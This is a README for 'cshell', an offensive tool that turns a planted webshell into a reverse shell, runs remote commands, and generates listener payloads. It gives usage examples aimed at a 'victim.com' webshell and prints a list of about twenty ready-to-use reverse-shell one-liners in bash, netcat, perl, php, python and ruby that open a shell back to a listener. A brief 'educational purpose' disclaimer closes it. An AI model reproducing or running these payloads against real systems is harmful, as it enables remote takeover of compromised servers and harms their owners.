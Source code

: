# CSHELL  
***  
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)  [![GitHub license](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://github.com/0z09e/cshell/LICENSE)  
  
***  
This script takes a working webshell as an argument and can perform the following operations  
- rev : This module sends a payload according to your choice and triggers that payload on the target webshell</br>  
- web : This module can execute direct command on the webshell using persisted working directory and error message</br>  
- lstnr : This module generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]  
  
## Install  
- From PIP library :   
  ``` 
  pip3 install cshell  
  ```  
- From Github :   
  ``` 
  git clone https://github.com/0z09e/cshell.git  
  cd cshell  
  sudo python3 setup.py install  
  ```  
    
## Usage  
- **Help Menu :**  
```  
$ cshell --help  
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...  
  
positional arguments:  
  {rev,web,lstnr}  
  
optional arguments:  
  -h, --help       show this help message and exit  
  --payloads       List all payload formats for rev  
  
web     Direct command execution on the webshell with error message  
rev     Reverse shell from a working webshell  
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]  
```

- **Getting a reverse shell from a webshell :**   
	- GET Method  : `cshell rev -i <Interface or IP. Example : 127.0.0.1 or lo> <Target URL with REV as command. Example : http://victim.com/webshell.php?cmd=REV>`  
	- POST Method : `cshell rev -i <Interface or IP. Example : 127.0.0.1 or lo> -m POST -d <Post DATA in JSON format with REV as command. Example : '{"cmd" : "REV"}'> <Target URL. Example : http://victim.com/webshell.php>`  
- **Interacting with a webshell** :   
	- GET Method : `cshell web <Target URL with WEB as command. Example : http://victim.com/webshell.php?cmd=WEB>`  
	- Post Method : `cshell rev -m POST -d <Post DATA in JSON format with WEB as command. Example : '{"cmd" : "WEB"}'> <Target URL. Example : http://victim.com/webshell.php>`  
- **Generating a payload** :   
	- `cshell lstnr -f <Format. Example : bash> -i <Interface or IP. Example : 127.0.0.1 or lo>  -p <Port. Example : 1337>`
  

## Custom commands for WEB module : 
- `help` - Help menu of custom commands  
- `clear` - Clear the screen  
- `exit` - Exit the shell  
- `upload` - Upload a file into the remote server  
- `download` - Download a file from the remote server  


## Payloads  
``` 
$ cshell --payloads  
========================================================================================================  
Format-Name                     Payload  
========================================================================================================  
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196  
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1  
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done  
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5  
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1  
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f  
nc                              nc -e /bin/bash 127.0.0.1 1337  
nc-c                            nc -c /bin/bash 127.0.0.1 1337  
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash  
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'  
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'  
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'  
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'  
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'  
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'  
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'  
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")  
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
```  
## Disclaimer
- Only for educational purpose, The creator of this tool won't be responsible to anything.

